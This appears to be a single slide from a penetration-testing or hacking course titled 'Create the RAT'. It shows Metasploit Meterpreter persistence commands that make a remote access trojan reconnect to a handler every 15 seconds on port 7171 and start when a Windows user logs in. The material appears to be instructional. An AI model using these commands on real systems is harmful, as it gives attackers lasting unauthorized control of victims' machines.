

# Create the RAT
Let’s explore the RATs
run persistence -A -i 15 -p 7171

run persistence -U -i 15 -p 7171

Automatically talk back to multi/handler

Run the persistence script
Try to connect every 15 seconds
Connect to port 7171

Automatically start when the Window’s User logs in